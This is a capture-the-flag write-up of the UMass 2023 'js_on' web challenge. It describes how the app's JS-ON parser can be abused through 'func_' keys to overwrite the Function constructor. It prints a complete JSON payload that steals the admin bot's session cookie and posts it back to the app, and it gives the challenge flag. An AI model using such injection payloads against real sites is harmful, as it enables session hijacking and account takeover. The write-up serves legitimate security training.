 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>The Bot website</p></figcaption></figure>

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:

{% code overflow="wrap" %}
```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```
{% endcode %}

Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:

{% code overflow="wrap" %}
```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```
{% endcode %}
